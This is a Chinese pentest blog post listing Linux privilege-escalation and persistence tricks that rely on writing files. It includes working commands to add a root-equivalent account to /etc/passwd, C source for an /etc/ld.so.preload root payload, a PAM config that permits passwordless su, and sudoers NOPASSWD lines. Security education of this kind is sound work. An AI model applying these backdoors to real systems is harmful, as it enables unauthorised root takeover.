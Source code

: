```yaml
---
layout: post
title:  "操作 linux 文件提权"
date:   2021-11-20 16:00:01 +0800
categories: Pentest
tag: Linux
---
```


* content
{:toc}



### 0x00 前言
--------------------

目前基本年更，工作中的太多东西不太敢放到博客中了，就是平时随手放笔记里的东西可能会拿出来更新一下。

本篇博客主要是总结 Linux 上通过写文件或者类似行为来提权的方法，收集途径来自于笔者平时收集和工作遇到的情况，如有缺失还请指正。

本文~~应该会~~持续更新。

### 0x01 三板斧
-------------------

为了对一些刚入门的小兄弟友好一点，把老生常谈的几种方式在这里提一下。

1. authorized_keys 
2. crontab 文件
3. webshell

这三种方式可以在大部分其他提权相关的文章中见到，这里就不再赘述具体的操作方法，就关键的地方提一下：

>authorized_keys

这个方式需要存在当前用户的 .ssh 目录，同时如果还需要开启 ssh 服务，限制挺多的。

>cron 文件

共有两个文件 `/etc/crontab` 和 `/var/spool/cron/crontabs/root` ，打 redis 的时候用得比较多，但需要注意的是不同的发行版对于crontab文件的权限和格式要求不一样，

所以有时候渗透的时候会发现，ubuntu的发行版通过redis写crontab就经常利用不成功，因为ubuntu的要求权限是600才会执行，但是 centos/redhat 就不用。

>webshell 

这个我感觉是用得越来越少了，当然某些情况下还是可以用的，就不多涉及了。

### 0x02 passwd 和 shadow
--------------------

这两个文件放在一起，这个方法与其说是用来提权，其实更像是维持权限的一种方式。

passwd 这个方式是我在某个脏牛的exp脚本里学到的，如下

```
perl -e "print crypt('kali@12', 'AA')"
echo "kali:AAvV8CAFWw4Bc:0:0:kali:/root:/bin/bash" >> /etc/passwd
```
这样之后 su kali 就可以直接登录 kali 用户了，kali 用户的 id 为0，也就相当于 root 用户。

shadow 就更容易理解了，直接替换某个用户的 hash。

### 0x03 /etc/ld.so.preload 
-------------------------------

在网上经常能搜到关于 LD_PRELOAD 提权或者后门的消息，但是少有提及到 ld.so.preload 文件的利用。

这两者的区别主要是，前者是全局的，对于整个系统都生效，而后者只对于当前用户和环境才生效。

从描述上来看，明显是前者更能满足我们的需求，光写入文件，不用配其他属性就能实现提权，简直完美。

修改 `/etc/ld.so.preload` 文件为：

```
/tmp/preload.so
```

preload.so 的源代码为：

```
// preload.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init(void) {
        if(geteuid() != 0){
                exit(0);
        }
        unsetenv("LD_PRELOAD");
        unlink("/etc/ld.so.preload"); //Delete it once called.
        setgid(0);
        setuid(0);
        //system("/usr/bin/chown root:root /tmp/runbash; /usr/bin/chmod +s,ugo+x /tmp/runbash");
	system("/usr/bin/id > /tmp/pwn");
}
```
编译该源码：
```
gcc -fPIC -shared -o preload.so preload.c -nostartfiles -ldl 
```
这样我们就能以 root 权限执行命令了，源码中为了避免反复执行命令，主动删除了 preload 文件，只需要执行一次就够了， 如果没有这行，将会导致灾难性后果。

我在某次CTF比赛中，用这个提权方式成功拿到 flag。只要有任意文件写入，都能用该方式提权。


### 0x04 PAM 认证

PAM 是 Linux 里负责认证的模块，具体的配置在 `/etc/pam.d/` 目录下，其中 su 的配置为 `/etc/pam.d/su`，其他程序的配置为同名配置文件。



#### 1. 配置文件

我们可以通过修改或者覆盖该配置文件来实现提权，不用密码也能切换到root账号。

`/etc/pam.d/su` kali 上测试通过

```
auth            sufficient      pam_permit.so
session       required   pam_env.so readenv=1 envfile=/etc/default/locale

session    optional   pam_mail.so nopen
session    required   pam_limits.so

@include common-auth
@include common-account
@include common-session
```

`pam_permit.so` 的结果是始终返回 True，sufficient 的条件一旦被满足，则直接返回认证成功。

因此上述配置可以实现任意账户切换都成功，不需要密码。


#### 2. pam_rootok.so 库文件

这个 so 库文件在很多程序中都用到了，本来的意义是当 root 用户切换到其他用户时，不需要认证可以直接切换。 当我们有权限可以修改这个库文件时，可以重新生成一个so文件，让它始终返回真就可实现提权。

pam_rootok.so 的源代码在 https://github.com/linux-pam/linux-pam/tree/master/modules/pam_rootok 

验证是否为 root 的关键代码如下：

```
static int
check_for_root (pam_handle_t *pamh, int ctrl)
{
    int retval = PAM_AUTH_ERR;

    if (getuid() == 0)
#ifdef WITH_SELINUX
      if (selinux_check_root() == 0 || security_getenforce() == 0)
#endif
	retval = PAM_SUCCESS;

    if (ctrl & PAM_DEBUG_ARG) {
       pam_syslog(pamh, LOG_DEBUG, "root check %s",
	          (retval==PAM_SUCCESS) ? "succeeded" : "failed");
    }

    return retval;
}
```

将返回值修改为 `return PAM_SUCCESS` 即可实现我们的目标。

完整代码和编译见仓库： https://github.com/Green-m/pam_privilege





### 0x05 /etc/cron.hourly/
------------------------------

大家看标题应该就知道这个方法了，为什么单独把这个拿出来讲，因为这个对格式的要求没那么高。

这个在 cron.hourly 文件夹内可以直接写 shell 脚本或者其他二进制，对文件的格式要求没那么高，但是要有 execute 权限。

因为在这几个文件夹内是用 `run-parts` 程序去调用该文件夹下的文件并执行，和 crontab 文件调用执行的原理并不同。

因为它是时间触发的，最快也需要一个小时触发一次，所以网上用这个方式提权或者执行命令的并不多，但在某些场景下是能用到的。



### 0x06 sudoers
----------------------------

执行命令

```
echo 'lowprivuser ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```
这样 lowprivuser 就可以不用密码执行 sudo 命令了。


在测试中，我还发现 sudo 还包含了 /etc/sudoers.d/ 文件夹内的所有配置文件，那么理论上生成一个新文件也是可以的

```
echo 'lowprivuser ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers.d/lowprivuser
```

但是测试过程中发现 sudo 会检查该文件的权限，要求不能是全局可写，否则会提示：
```
sudo: /etc/sudoers.d/lowprivuser is world writable
```

那么这个最高的权限就是 776，只要满足这个条件就能够正常使用。


### 0xff 总结

大体上就这样，不是什么特别有用的方法，但某些时刻可能有特别的效果。














